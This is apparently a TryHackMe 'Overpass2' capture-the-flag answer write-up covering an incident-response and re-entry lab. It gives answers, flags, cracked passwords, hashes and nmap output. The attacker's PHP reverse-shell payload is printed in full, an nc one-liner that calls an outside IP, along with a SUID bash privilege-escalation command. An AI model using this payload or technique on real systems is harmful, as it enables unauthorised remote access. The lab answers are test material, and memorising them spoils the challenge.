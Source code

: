 # Overpass2
##### Question 1:  What was the URL of the page they used to upload a reverse shell? 
Answer
```bash
/development/
```

##### Question 2: What payload did the attacker use to gain access?
Answer
```bash
<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```

##### Question 3: What password did the attacker use to privesc?
Answer
```bash
whenevernoteartinstant
```

##### Question 4: How did the attacker establish persistence?
Answer
```bash
https://github.com/NinjaJc01/ssh-backdoor
```

##### Question 5: Using the fasttrack wordlist, how many of the system passwords were crackable?
Answer
```bash
4
```

##### Question 6:  What's the default hash for the backdoor? 
Answer
```bash
bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3
```

##### Question 7: What's the hardcoded salt for the backdoor?
Answer
```bash
1c362db832f3f864c8c2fe05f2002a05
```

##### Question 8: What was the hash that the attacker used? - go back to the PCAP for this!
Answer
```bash
6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
```

##### Question 9: Crack the hash using rockyou and a cracking tool of your choice. What's the password?
Answer
```bash
november16
```

##### Question 10:  The attacker defaced the website. What message did they leave as a heading? 
Answer
```bash
H4ck3d by CooctusClan
```

##### Question 11: User flag
Answer
```bash
thm{d119b4fa8c497ddb0525f7ad200e6567}
```

##### Question:  Root flag
Answer
```bash
thm{d53b2684f169360bb9606c333873144d}
```

- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -  - -

User passwords Cracked:
```bash
1qaz2wsx         (muirland)
abcd123          (szymex)
secret12         (bee)
secuirty3 		 (paradox)
```

Nmap Scan:
```bash
Nmap scan report for 10.10.121.90
Host is up (0.10s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e4:3a:be:ed:ff:a7:02:d2:6a:d6:d0:bb:7f:38:5e:cb (RSA)
|   256 fc:6f:22:c2:13:4f:9c:62:4f:90:c9:3a:7e:77:d6:d4 (ECDSA)
|_  256 15:fd:40:0a:65:59:a9:b5:0e:57:1b:23:0a:96:63:05 (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: LOL Hacked
2222/tcp open  ssh     OpenSSH 8.2p1 Debian 4 (protocol 2.0)
| ssh-hostkey: 
|_  2048 a2:a6:d2:18:79:e3:b0:20:a2:4f:aa:b6:ac:2e:6b:f2 (RSA)
No exact OS matches for host (If you know what OS is running on it, see 
Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 5900/tcp)
HOP RTT       ADDRESS
1   34.88 ms  10.6.0.1
2   ... 3
4   103.64 ms 10.10.121.90

```

ssh: port 2222 james:november16
Priv Esc:
```bash
/home/james/.suid_bash -p
```